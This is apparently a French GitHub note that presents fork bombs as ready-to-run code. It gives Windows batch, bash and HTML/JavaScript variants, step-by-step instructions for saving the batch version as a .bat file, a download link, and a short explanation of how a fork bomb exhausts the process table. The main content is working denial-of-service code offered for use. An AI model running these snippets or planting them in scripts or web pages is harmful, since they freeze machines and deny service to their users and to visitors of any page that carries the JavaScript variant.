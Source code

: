 `ADD GIF OF FORK BOMB HERE`

# Code
```
@echo off
color a
:start
start
goto :start
```
Source : [Github](#Télécharger-depuis-Github)

# Variante Windows (Batch)
```
%0|%0
```

# Variante Linux (Bash)
```
:(){ :|:& };:
```

# Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)

## Télécharger depuis Github
- [github.com /Altherneum/.github /blob/main /note /OS/Windows /matrice.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/matrice.bat)

# Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  
Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  
Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.
